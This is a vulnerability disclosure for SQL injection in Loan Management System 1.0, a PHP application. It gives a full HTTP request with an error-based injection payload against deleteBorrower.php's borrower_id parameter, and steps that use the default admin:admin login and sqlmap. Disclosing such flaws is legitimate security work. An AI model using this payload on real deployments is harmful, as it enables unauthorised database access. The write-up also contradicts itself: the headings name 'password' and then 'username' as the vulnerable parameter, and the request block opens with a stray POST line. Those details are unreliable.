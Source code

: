 

# Loan Management System - login.php 'password' SQL inject

#### Exploit Title: Loan Management System - login.php 'username' SQL inject

#### Exploit Author: [webraybtl@webray.com.cn](mailto:webraybtl@webray.com.cn) inc

#### Vendor Homepage: https://www.sourcecodester.com/php/15529/loan-management-system-oop-php-mysqlijquery-free-source-code.html

#### Software Link:https://www.sourcecodester.com/php/15529/loan-management-system-oop-php-mysqlijquery-free-source-code.html

#### Version: Loan Management System 1.0

#### Tested on: Windows Server 2008 R2 Enterprise, Apache ,Mysql

#### Description

The reason for the SQL injection vulnerability is that the website application does not verify the validity of the data submitted by the user to the server (type, length, business parameter validity, etc.), and does not effectively filter the data input by the user with special characters , so that the user's input is directly brought into the database for execution, which exceeds the expected result of the original design of the SQL statement, resulting in a SQL injection vulnerability.Loan Management System does not filter the content correctly at the "deleteBorrower.php/borrower_id" parameter, resulting in the generation of SQL injection.

#### Payload used:

```POST /login.php HTTP/1.1
GET /deleteBorrower.php?borrower_id=1'%20AND%20GTID_SUBSET(CONCAT("data:",database()),8194)--%20GZSp HTTP/1.1
Host: 192.168.67.11:8091
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.67.11:8091/borrower.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=bes3u5nf3elraj4jtmpnaoac0n
Connection: close
```

#### Proof of Concept

1、Log in to the system using the default password admin: admin

2、Add a piece of data on the Borrower page

![image](https://github.com/joinia/webray.com.cn/blob/main/Loan-Management-System/images/browsersql1.png)

3、Click 'delete' and grab the package, locate the file as' deleteBrower.php '.Looking at the source code, it is found that the borrower_id field is directly brought into the SQL statement query without filtering

![image](https://github.com/joinia/webray.com.cn/blob/main/Loan-Management-System/images/browsersql2.png)

4、We can construct SQL statements to query the name of the database

payload:`http://xxxx/deleteBorrower.php?borrower_id=1'%20AND%20GTID_SUBSET(CONCAT("data:",database()),8194)--%20GZSp`

![image](https://github.com/joinia/webray.com.cn/blob/main/Loan-Management-System/images/browsersql3.png)

5、Testing using the sqlmap tool can also detect SQL injection vulnerabilities

![image](https://github.com/joinia/webray.com.cn/blob/main/Loan-Management-System/images/browsersql4.png)
